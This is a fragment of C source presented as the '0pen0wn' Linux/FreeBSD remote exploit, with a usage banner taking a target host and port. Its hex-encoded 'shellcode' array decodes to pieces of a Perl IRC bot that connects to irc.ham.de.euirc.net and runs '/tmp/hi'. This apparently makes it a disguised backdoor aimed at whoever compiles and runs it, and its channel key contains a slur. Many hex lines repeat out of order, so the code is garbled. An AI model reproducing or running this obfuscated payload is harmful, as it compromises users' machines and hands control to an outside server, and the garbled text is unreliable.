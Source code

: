 ```c
        "\x73\x6f\x63\x6b\x3e\x29\x7b\x69\x66\x20\x28\x2f\x5e\x50\x49\x4e"
        "\x47\x20\x28\x2e\x2a\x29\x24\x2f\x29\x7b\x70\x72\x69\x6e\x74\x20"
        "\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a";

char fbsd_shellcode[] =
        "\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
        "\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
        "\x20\x3d\x22\x66\x61\x67\x73\x22\x3b\x24\x6e\x69\x63\x6b\x3d\x22"
        "\x70\x68\x70\x66\x72\x22\x3b\x24\x73\x65\x72\x76\x65\x72\x3d\x22"
        "\x69\x72\x63\x2e\x68\x61\x6d\x2e\x64\x65\x2e\x65\x75\x69\x72\x63"
        "\x2e\x6e\x65\x74\x22\x3b\x24\x53\x49\x47\x7b\x54\x45\x52\x4d\x7d"
        "\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
        "\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
        "\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
        "\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
        "\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
        "\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
        "\x24\x63\x68\x61\x6e\x3d\x22\x23\x63\x6e\x22\x3b\x24\x6b\x65\x79"
        "\x20\x3d\x22\x66\x61\x67\x73\x22\x3b\x24\x6e\x69\x63\x6b\x3d\x22"
        "\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
        "\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
        "\x24\x63\x68\x61\x6e\x3d\x22\x23\x63\x6e\x22\x3b\x24\x6b\x65\x79"
        "\x20\x3d\x22\x66\x61\x67\x73\x22\x3b\x24\x6e\x69\x63\x6b\x3d\x22"
        "\x70\x68\x70\x66\x72\x22\x3b\x24\x73\x65\x72\x76\x65\x72\x3d\x22"
        "\x69\x72\x63\x2e\x68\x61\x6d\x2e\x64\x65\x2e\x65\x75\x69\x72\x63"
        "\x2e\x6e\x65\x74\x22\x3b\x24\x53\x49\x47\x7b\x54\x45\x52\x4d\x7d"
        "\x64\x20\x2b\x78\x20\x2f\x74\x6d\x70\x2f\x68\x69\x20\x32\x3e\x2f"
        "\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x3b\x2f\x74\x6d\x70\x2f\x68\x69"
        "\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
        "\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
        "\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
        "\x6b\x5c\x6e\x22\x3b\x7d\x7d\x70\x72\x69\x6e\x74\x20\x24\x73\x6f"
        "\x63\x6b\x20\x22\x4a\x4f\x49\x4e\x20\x24\x63\x68\x61\x6e\x20\x24"
        "\x6b\x65\x79\x5c\x6e\x22\x3b\x77\x68\x69\x6c\x65\x20\x28\x3c\x24"
        "\x73\x6f\x63\x6b\x3e\x29\x7b\x69\x66\x20\x28\x2f\x5e\x50\x49\x4e"
        "\x47\x20\x28\x2e\x2a\x29\x24\x2f\x29\x7b\x70\x72\x69\x6e\x74\x20"
        "\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
        "\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
        "\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
        "\x6b\x5c\x6e\x22\x3b\x7d\x7d\x70\x72\x69\x6e\x74\x20\x24\x73\x6f"
        "\x63\x6b\x20\x22\x4a\x4f\x49\x4e\x20\x24\x63\x68\x61\x6e\x20\x24"
        "\x6b\x65\x79\x5c\x6e\x22\x3b\x77\x68\x69\x6c\x65\x20\x28\x3c\x24"
        "\x73\x6f\x63\x6b\x3e\x29\x7b\x69\x66\x20\x28\x2f\x5e\x50\x49\x4e"
        "\x47\x20\x28\x2e\x2a\x29\x24\x2f\x29\x7b\x70\x72\x69\x6e\x74\x20"
        "\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
        "\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
        "\x24\x63\x68\x61\x6e\x3d\x22\x23\x63\x6e\x22\x3b\x24\x6b\x65\x79"
        "\x20\x3d\x22\x66\x61\x67\x73\x22\x3b\x24\x6e\x69\x63\x6b\x3d\x22"
        "\x7d\x7d\x23\x63\x68\x6d\x6f\x64\x20\x2b\x78\x20\x2f\x74\x6d\x70"
        "\x2f\x68\x69\x20\x32\x3e\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x3b"
        "\x2f\x74\x6d\x70\x2f\x68\x69\x0a";
#define SIZE 0xffffff       
#define OFFSET 131
#define fremote build_frem(t,e,s,m,y)

void usage(char *arg){
        printf("\n[+] 0pen0wn 0wnz Linux/FreeBSD\n");
        printf("  Usage: %s -h <host> -p port\n",arg);
        printf("  Options:\n");
        printf("  \t-h ip/host of target\n");
        printf("  \t-p port\n");
        printf("  \t-d username\n");
        printf("  \t-B memory_limit 8/16/64\n\n\n");
```

[^1]: [Exploit](https://en.wikipedia.org/wiki/Exploit_(computer_security)) 
[^2]: [Shell Code](https://en.wikipedia.org/wiki/Shellcode)
